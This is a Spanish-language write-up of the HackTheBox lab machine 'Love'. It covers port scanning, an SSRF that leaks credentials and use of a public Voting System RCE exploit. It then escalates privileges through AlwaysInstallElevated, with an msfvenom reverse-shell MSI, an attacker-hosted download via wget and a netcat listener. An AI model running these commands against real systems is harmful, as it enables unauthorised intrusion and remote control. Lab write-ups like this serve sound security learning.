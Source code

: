 #by d4l1
<p align="center"><img src=""></p>
<h1 align="center">LOVE</h1>

# ÍNDICE

# INICIO

Love es una máquina Windows fácil donde las cosas que encontramos con un sistema de aplicación de votos, conseguimos un codigo de ejecución remoto. Nuestro puerto escanea un servicio por el puerto 5000 donde el navegador descubre una pagina en el que tenemos acceso.
Encontramos una vulnerabilidad SSRF donde la explotacion ganamos una contraseña. Cuando tenemos las credenciales hacemos un escaneo de lsistema y ejecutamos un codigo apra atacar un usuaio del sistema.

Con una enumeración basica de windows nos revela una mala configuracion y tenemos la posibilidad de insertar un código malicioso para subir privilegios

Como siempre empezaremos a hacer un test de conectividad. 

![image](https://github.com/D4l1-web/HTB/assets/79869523/5adbbdba-36ec-47ae-b52f-c3765bf20643)

Posteriormente haremos un escaner de puertos.

![image](https://github.com/D4l1-web/HTB/assets/79869523/76201950-5fda-4fa3-a135-7eb1ceea6511)
![image](https://github.com/D4l1-web/HTB/assets/79869523/903ecf62-7183-4cae-b734-785d8e1b07db)

nmap nos revela un apache en el puerto 80, un smb un mysql en los puertos por defecto. Vemos un servicio corriendo por el puerto 5000 pero no sabemos lo que es solo sabemos que utiliza php 7.3.27. Love tiene dos dominios que podemos encontrar.

```
echo "10.10.14.22 www.love.htbs tating.love.htb" | sudo tee -a /etc/hosts

```
Cuando nos metemos a www.love.htb nos lleva a un login "Voting System"

![image](https://github.com/D4l1-web/HTB/assets/79869523/e46e007c-596a-46e3-be2e-c546418d9a99)

Si buscamos por casualidad "voting system exploit" nos encontramos con un RCE vulnerabilidad [exploit](https://www.exploit-db.com/exploits/49445)

Sin necesidad de ninguna contraseña podremos entrar o registrar una cuenta y luego continuar explorando informacion. Si buscamos "staging.love.htb" es un lugar para escanear archivos de posibilidad de malware. Si seleccionas la opcion beta, nosotros transferimos "beta.php" donde nosotros localizaremos el archivo que escanea la aplicación.

![image](https://github.com/D4l1-web/HTB/assets/79869523/8513576e-ed45-4e1e-8d78-020f9c171bf0)

![image](https://github.com/D4l1-web/HTB/assets/79869523/4e56507f-c761-424a-bfda-65744d19eb22)

Si intentamos escanear nuestra ip local por el puerto 127.0.0.1:5000 nos pondra algo interesante.

![image](https://github.com/D4l1-web/HTB/assets/79869523/ea5ed859-ed4e-424a-9404-0cb3d0d07772)

Acabamos de encontrar unas credenciales y gracias a esto ya podemos meter el exploit anterior

![image](https://github.com/D4l1-web/HTB/assets/79869523/39a3f18f-5e50-4a7b-8477-8cc9535b0b13)

Obviamnete abrimos un netcat para estar a la escucha por el puerto 8888
```
sudo nc -lvnp 8888
```

![image](https://github.com/D4l1-web/HTB/assets/79869523/a44607e5-8d44-4412-a756-eba5972d124c)

Dentro del usuario "Phoebe" encontramos la flag de user.

![image](https://github.com/D4l1-web/HTB/assets/79869523/89938acb-822e-4e49-8b1a-9b082b8ed3e4)

## ESCALADA DE PRIVILEGIOS

Para enumerar los registros comunes de windows, encontre "AlwaysInstallElevated" esta activo
```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
![image](https://github.com/D4l1-web/HTB/assets/79869523/5f47bdd8-ae91-4997-9860-2287337a8ce5)

Podemos explotar esta vulnerabilidad y ejecutar un Windows installer (.msi) sin embargo si nosotros intentamos utilizar el payload no creo que funcione

Despues de una enumeracion solo ahy dos usuarios "Phoebe" y "administrator" 
```
get-applockerpolicy -effective | select -expandproperty rulecollections
```
Vamos a generar un msi malicioso con msfvenom
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.22 LPORT=4444 -f msi -o reverse.msi
```
Deberemos abrir 

Nos metemos al directorio C:\Administration
![image](https://github.com/D4l1-web/HTB/assets/79869523/80b6f820-1e76-410e-a031-fd706dfca8ef)

Abrimos un servidor de python 

```
python -m http.server
nc -lvnp 4444
```

Descargamos el archivo de nuestro ordenador local con wget y ejecutamos

```
wget 10.10.14.22:8000/reverse.msi -o reverse.msi
msiexec /quiet /i reverse.msi
```
Como veremos no nos dejara deberemos estar en powershell en nuestra máquina windows
```
powershell
```
![image](https://github.com/D4l1-web/HTB/assets/79869523/8dbe98ef-aa3b-42bd-ad92-cfa7ff92105e)

![image](https://github.com/D4l1-web/HTB/assets/79869523/f445697e-c3fa-4d63-908b-02fe1691f1af)

![image](https://github.com/D4l1-web/HTB/assets/79869523/73167bae-180a-4f38-805f-b3035b8b2f1a)

GG







